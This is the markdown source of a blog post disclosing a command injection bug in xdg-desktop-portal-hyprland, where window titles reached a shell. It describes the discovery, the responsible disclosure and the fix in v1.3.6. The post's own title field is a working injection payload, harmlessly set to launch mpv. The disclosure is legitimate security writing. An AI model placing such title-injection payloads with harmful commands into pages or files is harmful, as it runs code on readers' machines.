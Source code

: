 ```yaml
---
#title: "';$(mpv https://wavesmiley.com/wavesmiley.gif && echo exit) --loop=inf #"
#title: "';$(mpv https://youtu.be/X7RotIysnpo --loop=inf && echo exit) #"
title: "';$(mpv https://youtu.be/hTAiHiKNXr0 --loop=inf && echo exit) #"
description: "DESTROY xdph users with this one simple trick!"
pubDate: 1727547346000
image:
    url: https://mahiro.oyama.pictures/Doki
    alt: Mahiro Oyama's heart is beating
    isTopper: true
unlisted: true
---
```



Hey all.

I've been wasting a ton of time on Satisfactory ever since 1.0 released and kind of doing absolutely nothing else.
<small>I should really write *some* code again.</small>

As of writing, I'm on Tier 6, and in the middle of building a railway. I was, however, feeling reaaallly lonely, so I tried streaming to friends <small>(who didn't own Satisfactory nor even care to see me play)</small>, and... Vesktop just crashed.

Of course, my brain immediately shot to either my system or Vesktop being out of date. On my desktop, I use the Vesktop flatpak, so
I performed both a full system update and ran `flatpak update`.

Turns out Vesktop wasn't out of date. Whatever. Probably fixed now. So I tried again, and... Vesktop still crashed as soon as I dared click the screenshare button.

Cool! Alright. Time to mull over logs. :onimai.mihari.Tired:

Vesktop was complaining about not receiving a screen before crashing, and `strace` showed nothing, so I checked out `journalctl`, and saw...

```
xdg-desktop-portal-hyprland[22647]: sh: -c: line 1: syntax error near unexpected token `('
```

...an `sh` syntax error under `xdg-desktop-portal-hyprland`?

Weird. I read the triggering line, and figured that it was probably some Firefox window, so I closed the tabs of any Firefox window I had open with parentheses in the title, and got a different error:

```
xdg-desktop-portal-hyprland[23523]: sh: line 1: More: command not found
xdg-desktop-portal-hyprland[23525]: sh: line 1: Cloudflare: command not found
xdg-desktop-portal-hyprland[23524]: sh: line 1: Minecraft: command not found
xdg-desktop-portal-hyprland[23522]: sh: line 1: does: command not found
xdg-desktop-portal-hyprland[23526]: sh: line 1: coolviruses.download: command not found
```

Oh. Huh. Those are just... random select words from my browser's tabs.

Okay, so surely it wouldn't work if I just... *closed* Firefox, right?

...right?

...Nope. It worked without Firefox. I read the line triggering the syntax error again, and then decided to try something...

<p>
    <video src="/blog/hyprland-vulnerability/initialtest.mp4" controls alt="A video showing me with an open Firefox window titled a single quote and semicolon, followed by a shell command, and ended with a pound symbol. I click screenshare in a call on Vesktop, and a new file appears in a folder named demo, before Vesktop crashes." />
</p>

Oh! Okay! That... shouldn't happen!

At this point, I was still confused. I had assumed it was a Vesktop vulnerability, but I wasn't so sure. So I quickly decided to ask [Jack](https://jack.cab), who uses GNOME, if he could reproduce the issue.

![me mentioning Jack on Discord with the previously shown video, asking him if he had the same issue](./jack_convo_1.png)

And he couldn't. Now we were even more confused. I was... kind of tired and lazy, so I got him to create a proper proof of concept to see whether it was was Vesktop or xdph.

<p>
    <video src="/blog/hyprland-vulnerability/poc1.mp4" controls alt="Proof of concept. A webpage with a button saying 'Hack me'. When clicked, Firefox prompts if you would like to give the page screenshare permissions, and when its request is accepted, mpv begins playing the 'windows sucks' video in fullscreen." />
</p>

Okay, so it's xdph. Cool!

At this point, I realized that we should probably report this, so I switched out `mpv` for a notification:

![Notification: Hello! Hello split from archdesktop!](./notification.png)

...and Jack disclosed the vulnerability to Vaxry. 

![Jack sends information regarding the bug to Vaxry](./jack_reports.png)

Anyway: 6 hours before the writing of this post, [xdph v1.3.6](https://github.com/hyprwm/xdg-desktop-portal-hyprland/releases/tag/v1.3.6) was released.
v1.3.6 contained commit [`dcfabff`](https://github.com/hyprwm/xdg-desktop-portal-hyprland/commit/dcfabff0fef78ecc0518748d4c25235ea1e63936), which fixed this vulnerability. I obviously heavily recommend that you update.

This vulnerability occured because xdph's code only properly filtered all characters after the first. The first character in a window's title is still filtered, [but the code incorrectly filtered out double quotes instead of single quotes](https://github.com/hyprwm/xdg-desktop-portal-hyprland/blob/4880c50146d0c2a3152d2b02f79253810c330c11/src/shared/ScreencopyShared.cpp#L14).

## Demo

To cap this post off, here's a demonstration:

<Demo />

<p style="text-align:center"><small>By the way, this demo uses `mpv` and its `yt-dlp` integration. Make sure to install both.</small></p>
<p style="text-align:center"><small>If you don't have JavaScript enabled, you should be able to keep this window open to this tab and screenshare almost anywhere else to trigger the demo 🙃</small></p>


**Extension to this post:** In xdph 1.3.2 and below, the problematic environment variable used double quotes instead of single quotes, which requires you to run commands using string interpolation instead of by ending the string. The title has been updated to accomodate for 1.3.2 and below.
